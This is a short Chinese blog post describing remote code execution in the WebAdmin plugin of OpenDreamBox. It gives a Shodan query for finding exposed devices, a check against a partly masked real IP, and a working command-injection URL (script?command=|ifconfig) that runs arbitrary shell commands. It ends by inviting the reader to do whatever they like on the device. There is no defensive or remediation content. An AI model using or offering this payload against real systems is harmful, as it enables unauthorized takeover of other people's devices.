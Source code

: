 ```yaml
---
title: OpenDreamBox-WebAdmin远程代码执行
layout: post
tags:
  - sec
  - hack
  - RemoteCodeExecution
  - linux
  - OpenDreamBox
category: 
  - hack
  - sec
comments: true
share: true
description: OpenDreamBox的插件WebAdmin远程代码执行
---
```


* TOC
{:toc}
OpenDreamBox的插件WebAdmin远程代码执行
<!--more-->


## 搜索漏洞

使用shodan搜索`"Dreambox 200 ok"`：

![shodan](/img/hack/远程代码执行/DreamBox/Dreambox_webadmin.png)

## 攻击

### 验证漏洞

若在url为`http://**.125.96.***:8889`填入`/webadmin/#!/ipk/installed`能显示出：


![ipk_installed](/img/hack/%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/DreamBox/ipk_installed.png)

就可以构造POC：`http://**.125.96.***:8889/webadmin/script?command=|命令`。比如`http://**.125.96.***:8889/webadmin/script?command=|ifconfig`:

![](/img/hack/%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/DreamBox/ifconfig.png)

接下来就是可以做一些自己可以做的事情。。


